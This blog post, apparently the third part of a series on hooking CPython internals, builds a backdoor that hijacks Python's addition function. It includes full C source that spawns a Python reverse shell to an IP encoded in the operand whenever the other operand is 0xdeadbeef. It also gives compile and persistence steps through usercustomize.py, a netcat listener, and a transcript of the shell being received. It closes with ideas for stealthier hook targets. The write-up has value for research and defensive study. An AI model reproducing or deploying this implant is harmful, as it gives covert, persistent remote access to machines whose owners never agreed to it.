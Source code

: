 ```yaml
---
title: 'Sneaky Snek: Messing with Python''s Internal Functions (Part III)'
date: 2023-07-04 01:02:15
tags:
- python
- tech
- hacking
---
```


We're back with another part of the series!

In the [Previous Part](/2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/), we've hooked `PyNumber_Add` function using `ctypes` and replaced it with our own implementation.
In this part, we will extend our extension to a backdoor that will return a reverse shell given specific addition operands.

To the drawing board!

### The Plan
- Just like in the previous part, we will hook the `PyNumber_Add` function
- Our code will check if one of the operands is `0xdeadbeef`.
- If so, it will extract the other operand and use it as an IPv4 address
- It will then connect to the address on port 1337 and spawn a reverse shell

### Adding our trigger
In our previous implementation, after checking that both operands are integers, we added a check to see if they are both equal to `2`.
We will replace this check with a check to see if one of the operands is `0xdeadbeef`, and if so, we will extract the other operand and use it as an IPv4 address.
```C
unsigned int ipNum = 0;
char ip[16] = {0};

if (PyLong_Check(a) && PyLong_Check(b)) {
    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    }
    else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }

    // Addition implementation
    // ...
}
// ...
```

### IP Extraction and Reverse shell
Since we have access to the Python C API, we have the freedom to run any Python code we want!

We will use the `os`, `socket` and `subprocess` modules to spawn a reverse shell. To avoid string formatting in C, we will use `strcat` to concatenate the strings. The IP address is extracted one byte at a time, using bit shifting and masking with `0xff` to get the lowest byte each time.

The reverse shell itself is a Python one-liner that uses `os.dup2` to duplicate the socket file descriptor to the standard input, output and error, and then uses `subprocess.call` to spawn a shell.

```C
char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"";

// ...

if (ipNum != 0) {
    // Convert the IP address to a string
    snprintf(ip, sizeof(ip), "%d.%d.%d.%d", ipNum & 0xff, (ipNum >> 8) & 0xff, (ipNum >> 16) & 0xff, (ipNum >> 24) & 0xff);

    // Connect to the IP address on port 1337 and spawn a shell
    strcat(revShell, ip);
    strcat(revShell, "\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);");
    PyRun_SimpleString(revShell);
}
```

And violà! We now have a backdoor that will spawn a reverse shell when the operands are `0xdeadbeef` and an IPv4 address.

### Putting it all together
```C
#include <Python.h>

PyObject* my_add(PyObject* a, PyObject* b) {
    unsigned long ipNum = 0;
    char ip[16] = {0};
    char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('";

    // Increment the reference count of a and b
    Py_INCREF(a);
    Py_INCREF(b);

    // Check that a and b are both PyLongs
    if (!PyLong_Check(a) || !PyLong_Check(b)) {
        Py_DECREF(a);
        Py_DECREF(b);
        return Py_None;
    }

    // PyNumber_Subtract(a, b) is equivalent to a - b,
    // So we can calculate a + b by doing a - (-b).
    // We can get -b by multiplying b by -1.
    PyObject *minus_b = PyNumber_Multiply(b, PyLong_FromLong(-1));
    PyObject *result = PyNumber_Subtract(a, (PyObject*) minus_b);

    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    } else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }
    
    if (ipNum != 0) {
        snprintf(ip, sizeof(ip), "%lu.%lu.%lu.%lu", (ipNum >> 24) & 0xFF, (ipNum >> 16) & 0xFF, (ipNum >> 8) & 0xFF, ipNum & 0xFF);
        strcat(revShell, ip);
        strcat(revShell, "',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);");

        PyRun_SimpleString(revShell);
    }

    Py_DECREF(a);
    Py_DECREF(b);
    return result;
}
```

### Persistence
Python looks for a startup script in the `site-packages/usercustomize.py` file, so we can drop our script from the [Previous Part](2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/) there and it will be loaded automatically. Don't forget to edit the Python script and change the path to `my_add.so` to the correct path on your machine.

```bash
# Compile our backdoor module
gcc -shared -o my_add.so -fPIC my_add.c $(python3-config --includes --ldflags)

# Find the user site-packages directory
python -c "import site; print(site.USER_SITE)"

# Edit the script and change the path to `my_add.so` to the full path of `site-packages/my_add.so` on your machine
vim snek.py

# Copy the our script to `site-packages/sitecustomize.py`
cp snek.py /home/user/.local/lib/python3.8/site-packages/usercustomize.py
```

Now, let's test our backdoor!

### Testing
We'll listen on port 1337 using `nc`.
```bash
➜  ~ nc -vvlp 1337
Listening on astral 1337
```

Now let's perform a simple calculation and see what happens.
```bash
➜  ~ python3
Address of my_add: 0x7face7051276
Address of PyNumber_Add: 0x50f750
mprotect(addr=0x50f000, size=0x1000, perms=0x7) ret=0 errno=0
Address of shellcode trampoline: 0x7face6f90390
memmove: 0x50f750
1 + 1 = 2
2 + 2 = 4
Python 3.8.10 (default, May 26 2023, 14:05:08)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 1 + 1
2
```

So far so good, but does our backdoor work? `0x7f000001` is hex for `127.0.0.1`, so let's try that!

```bash
>>> 0xdeadbeef + 0x7f000001
```

And we get a shell! Beautiful!
```bash
Connection received on localhost 34998
user@astral:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
user@astral:~$ 
```

### Notes and Caveats
This is a proof of concept, and is not meant to be used in production (whatever "production" means for a backdoor, lol).

Here are some of the things that could go wrong with this implementation:
- I'm pretty sure the current implementation breaks a lot of things, such as the `+` operator for other types, but I haven't tested it extensively
- Thread safety is not guaranteed
- The `mprotect` call won't work on platforms with `W^X` memory protection
- `mprotect` won't work on Windows
- The shellcode trampoline won't work on platforms other than x86_64
- The inline hook is implemented in a very naive way, and overwrites the original function code of `PyNumber_Add`. A better way to implement the inline hook would be to use a trampoline, and jump to the original function code after we're done. This requires us to allocate a page of executable memory, and copy the original function code there, and then jump to it
- Alternatively, we can use a hooking library such as [subhook](https://github.com/Zeex/subhook)
- The reverse shell doesn't fork a child process, so the Python process will get stuck until the reverse shell exits, and `stdin` / `stdout` / `stderr` won't get redirected back to the user

Improvements and features that can be added:
- We can use `mmap()` to get a page of executable memory and load shellcode from memory, instead of using `CDLL` to load a shared library from disk
- The backdoor components and it's communication are not encrypted or obfuscated in any way
- A Python shell would be nice, instead of relying on `/bin/bash`
- As an attacker, there are better hook targets than `PyNumber_Add`, such as `socket.recv()`, which is guaranteed to be called with user input in a lot of places
- Another option is string formatting functions, which are also used everywhere and likely to be called with user input (thanks to [@HarpazDor](https://twitter.com/HarpazDor) for the suggestion!)

This was a really fun way to spend a weekend!
I hope you enjoyed reading this series as much as I enjoyed writing it, and maybe even learned something new along the way.

Ciao for now!
